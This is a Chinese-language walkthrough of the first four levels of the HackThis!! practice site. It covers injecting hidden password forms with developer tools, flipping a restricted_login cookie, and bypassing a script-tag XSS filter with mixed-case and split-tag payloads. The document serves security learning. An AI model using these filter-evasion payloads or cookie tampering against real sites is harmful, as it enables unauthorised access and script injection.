




## level1
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="GET" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```

## level2
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="POST" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```
可通过开发者工具中的网络标签页来查看通信过程验证。

## level3
改cookie中的`restricted_login`的值，将`false`改为`true`即可。

## level4
先直接写他给的嵌入script标签的代码
```html
<script>alert('HackThis!!');</script>
```
然后结果发现它将`alert('HackThis!!');`这个script标签里面的值输出到了一个div标签里。

于是我想在前面闭合掉div，然后在后面加上一个div开头与后面的div闭合。
结果发现没有过滤尖括号，把div直接输出了，然而script里面的内容还是作为html代码输出到了页面，外面没有script标签包裹，于是并没有执行。

于是我想它是不是碰到script标签就把script过滤删除，然后把其中的内容输出到页面。到把script大小写混写
```html
</div><sCripT>alert('HackThis!!');</SCriPt><div>
```
页面弹框了 </br>

再试试img标签
```html

```
页面虽然也弹框了</br>
但是发现题目要求，必须要嵌入的是那一段代码，而且页面没有显示要你进入下一关，应该意思是没通过。
然后想想看这样行不行。
```html
<scriscriptpt>alert('HackThis!!');</scscriptript>
```
然后发现页面其实也并不是将关键词script替换
然后我想，它是不是只过滤了一个script标签，我用两个试试呢？
```html
<script><script>alert('HackThis!!');</script></script>
```
然后将尖括号编码都不行。
```
&lt;script&gt;alert('HackThis!!');&lt;/script&gt;
```
或者
```html
%3cscript%3ealert('HackThis!!');%3c/script%3e
```
后来看了被人的writeup才发现，，，草，既然尖括号没有过滤，那可以用啊！
```html
<scr<script>ipt>alert('HackThis!!');</s</script>cript>
```

